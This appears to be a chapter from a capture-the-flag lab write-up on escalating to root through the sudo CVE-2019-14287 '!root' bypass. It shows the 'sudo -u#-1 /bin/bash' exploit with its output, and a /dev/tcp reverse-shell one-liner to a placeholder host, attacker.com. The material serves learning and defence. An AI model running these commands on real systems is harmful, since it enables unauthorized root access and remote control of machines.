



# 07 — Privilege Escalation (CVE-2019-14287)

## Overview

Post-authentication enumeration revealed a sudo misconfiguration combined with a vulnerable sudo version (1.8.21p2), allowing the user `james` to bypass the `!root` restriction in `/etc/sudoers` and obtain a full root shell using the publicly documented **CVE-2019-14287** technique.

## Objectives

- Enumerate local privilege escalation vectors as user `james`
- Identify the sudo permissions granted to the current user
- Identify and confirm a vulnerable sudo version
- Exploit the sudo security bypass to obtain root

## Important Terminology

| Term | Definition |
|---|---|
| **`sudo -l`** | Lists the commands the current user is permitted to run via sudo |
| **`(ALL, !root)`** | A sudoers rule allowing a user to run a command as any user *except* root |
| **CVE-2019-14287** | A sudo vulnerability (versions before 1.8.28) allowing the `!root` restriction to be bypassed using a user ID of `-1` or `4294967295` |
| **UID `-1` / `4294967295`** | Because user IDs are stored as unsigned 32-bit integers, `-1` overflows to `4294967295`; sudo's flawed logic resolved this to UID `0` (root) while failing the `!root` string comparison check |

## Concepts Explained

The sudoers rule `(ALL, !root) /bin/bash` is intended to allow a user to run `/bin/bash` as *any* user except root. Due to a logic flaw in sudo versions prior to 1.8.28 (CVE-2019-14287), sudo compared the target user against the literal string `root` but resolved a numeric UID of `-1` (or its unsigned equivalent `4294967295`) directly to UID `0`. Since `0` is root's UID but the check never received the string `"root"`, the restriction was bypassed entirely.

## Commands and Syntax

### Step 1 — Confirm current privileges

```bash
sudo -l
```

### Step 2 — Confirm sudo version

```bash
sudo -V
```

### Step 3 — Exploit the bypass (CVE-2019-14287)

```bash
sudo -u#-1 /bin/bash
```

### Command Breakdown

| Component | Description |
|---|---|
| `sudo -l` | Lists what commands the invoking user may run with sudo, and as which target users |
| `sudo -V` | Prints the installed sudo version and related plugin versions |
| `sudo -u#-1` | Requests sudo run the target command as UID `-1` (numeric UID syntax via `#`) |
| `/bin/bash` | The command being escalated — spawns an interactive bash shell |

**Why it was used:** `sudo -l` confirmed the `(ALL, !root) /bin/bash` rule; `sudo -V` confirmed the vulnerable version (1.8.21p2, which is < 1.8.28); `sudo -u#-1 /bin/bash` is the documented CVE-2019-14287 proof-of-concept command.

## Examples

### Enumerating sudo permissions

```bash
sudo -l
```

```text
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```



### Confirming filesystem restrictions

```bash
cd ..
ls
cd root
pwd
```

```text
bin  boot  cdrom  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  swap.img  sys  tmp  usr  var  vmlinuz  vmlinuz.old
-bash: cd: root: Permission denied
/
```

- Direct access to `/root` was denied as expected for a non-root user, confirming further privilege escalation was required.

### Locating the Public Exploit Reference

The sudoers rule `(ALL, !root) /bin/bash` combined with an outdated sudo version was cross-referenced against Exploit-DB, matching **EDB-ID 47502 / CVE-2019-14287**:



> [!NOTE]
> Exploit-DB entry 47502 documents the exact same sudoers pattern (`(ALL, !root) /bin/bash`) used in this exercise, confirming applicability before attempting exploitation.

### Confirming the Vulnerable Version and Exploiting It

An initial reverse shell attempt via the sudoers-permitted `/bin/bash` rule was tested but failed (network/connectivity based, not privilege related), and running the exploit command with `sudo bash -c ...` directly was correctly rejected since it attempted to run as root explicitly:

```bash
bash -c 'exec bash -i &>/dev/tcp/attacker.com/12345 <&1'
```

```text
bash: connect: Connection timed out
bash: /dev/tcp/attacker.com/12345: Connection timed out
```

```bash
sudo bash -c 'exec bash -i &>/dev/tcp/attacker.com/12345 <&1'
```

```text
Sorry, user james is not allowed to execute '/bin/bash -c exec bash -i &>/dev/tcp/attacker.com/12345 <&1' as root on agent-sudo.
```

Sudo version confirmed as vulnerable:

```bash
sudo -V
```

```text
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

The CVE-2019-14287 bypass was then executed:

```bash
sudo -u#-1 /bin/bash
```

```text
[sudo] password for james:
root@agent-sudo:/# whoami
root
```



## Observations

| Check | Result |
|---|---|
| Sudo rule | `(ALL, !root) /bin/bash` |
| Sudo version | 1.8.21p2 (vulnerable — CVE-2019-14287 affects versions **before 1.8.28**) |
| Direct root command (`sudo bash -c ...`) | Denied — the literal `root` target is correctly blocked |
| `sudo -u#-1 /bin/bash` | **Succeeded** — resulted in a root shell |
| `whoami` after exploitation | `root` |

- The direct reverse shell attempt over `/dev/tcp` timed out due to network/firewall restrictions in the lab environment — unrelated to the sudo vulnerability itself.
- Attempting to explicitly run a command as `root` via `sudo bash -c ...` was correctly denied, confirming the `!root` restriction works as intended for the literal string `root`.
- The numeric UID trick (`-u#-1`) bypassed this restriction entirely, confirming the target was vulnerable to CVE-2019-14287.

## Common Mistakes

- Assuming `(ALL, !root)` fully prevents root access — this rule is only safe on sudo versions ≥ 1.8.28.
- Mistyping flags under pressure (`sudo --verion` instead of `sudo -V`) — always confirm exact flag syntax with `sudo -h` or `man sudo` if unsure.
- Attempting to run the target command directly as `root` (e.g., `sudo bash -c ... ` without the UID trick) — this is correctly blocked and can waste time before realizing the numeric UID method is required.
- Forgetting to verify the sudo version before attempting the exploit — the CVE only applies to sudo versions **prior to 1.8.28**.

## Notes

- This vulnerability requires **no additional exploit code or compilation** — it is a single-line command-line technique, making it extremely low-effort once the vulnerable sudoers configuration and version are confirmed.
- The equivalent numeric form `sudo -u#4294967295 /bin/bash` also works, since `-1` overflows to this value in a 32-bit unsigned integer context.

## Additional Context

> [!NOTE]
> The following is supplementary background, not derived from the lab notes.

CVE-2019-14287 was discovered by Joe Vennix of Apple Information Security and publicly disclosed in October 2019. It affects all sudo versions before **1.8.28**. The root cause is that sudo's `runas` user validation compared the *username* against `root`, but resolved arbitrary/invalid UIDs (such as `-1`) directly to `0` without re-validating against the `!root` exclusion. The fix in 1.8.28 ensures that any UID resolving to `0` is explicitly treated as `root` for exclusion-rule purposes, regardless of how it was specified on the command line.

## References

- [CVE-2019-14287 — NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [Exploit-DB 47502 — sudo 1.8.27 Security Bypass](https://www.exploit-db.com/exploits/47502)
- [Sudo Security Advisory](https://www.sudo.ws/security/advisories/minus_1_uid/)

## Key Takeaways

- Always run `sudo -l` immediately after establishing a foothold — sudoers misconfigurations are among the most common and impactful privilege escalation vectors on Linux.
- A `(ALL, !root)` rule is **not a safe restriction** on sudo versions before 1.8.28 due to CVE-2019-14287.
- `sudo -u#-1 /bin/bash` (or the equivalent `-u#4294967295`) is the complete, minimal exploitation command for this CVE — no custom tooling is required.
- Version-checking (`sudo -V`) before attempting a known CVE is essential to confirm applicability and avoid wasted effort.

---

**Previous:** [06 — Initial Access](../06-Initial-Access/README.md) · **Back to:** [Cheat Sheets](../../cheatsheets/) · [Repository Overview](../../README.md)
